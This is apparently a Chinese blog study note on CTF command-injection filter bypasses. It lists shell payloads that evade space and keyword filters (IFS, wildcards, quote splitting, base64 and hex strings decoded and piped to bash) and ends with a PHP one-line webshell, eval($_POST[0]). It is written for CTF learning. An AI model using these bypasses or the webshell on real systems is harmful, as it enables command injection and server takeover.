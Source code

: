 ```yaml
---
title: 20241209CTF学习笔记7
date: 2024-12-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true












---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第6天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第6章：ByPass

### 过滤空格

如果空格被禁止了，那就需要用一些其他的方法

```shell
# 这种情况展示不了flag，只会报找不到cat.php的文件
cat$IFSflag.php
# 使用以下方式可以不用空格
cat${IFS}flag.php
# <这个意思是导入
cat<flag.php
# 用逗号实现了空格的功能，需要用{}括起来
{cat,flag.php}
# 需要看编码支不支持
cat%20flag.php
# %09代表tab键
cat%09flag.php
```

### 过滤某些关键字

比如cat、flag等

```shell
# 用反斜线转义，对字母本身做转义还等于本身
cat fla\g.php

# 可以用两个单引号隔开
cat fla''g.php

# base64编码绕过 需要将cat flag.php或者flag.txt进行base64加密，
echo "Y2F0IGZsYWcudHh0" | base64 -d | bash

# hex编码绕过 
# 对于给定的十六进制字符串 "63617420666c61672e747874"，经过 xxd -r -p 解码后得到的文本内容是 "cat flag.txt"，然后通过管道传递给 bash 去执行，查看flag.txt文件
echo  echo "63617420666c61672e747874" | xxd -r -p | bash

# 用[]去匹配
cat fl[a]g.txt

# 用[]匹配时，如果有两个字母，表示不包含两边
cat fla[f-h].txt

# 用*来匹配，代表任意长度字符
cat fla*

# 用问号匹配 正常ctf环境直接cat flag即可，将g替换为问号，问号是单个长度的任意
cat flag.tx?

# 从a—z逐行执行
cat fl{a..z}g

# 内联执行 第一行是找到flag.txt的文件 第二号反引号先执行里边的命令 然后把里边命令的结果给cat
ls | grep fla
cat `ls | grep fla`
# 或者有其他的内联执行
cat $(ls |grep fla)

# 用变量
a=fl;b=ag;cat $a$b.txt
```

> 在Python中，如果过滤了加号，不让使用加号时，我们可以使用如下特性绕过
>
> ```
> 'a'+'b'会输出ab
> 'a''b'也会输出ab
> ```

### 附加题目：

GXYCTF2019 Ping Ping Ping

### 代码执行漏洞

##### 题目练习

eval()函数，以下是一个一句话木马，0就是webshell的密码，蚁剑帮我们执行了很多命令，用eval去执行。

eval()函数在 PHP 中可以把传入的字符串当作 PHP 代码来执行。

```php
<?php eval($_POST[0]);?>
```

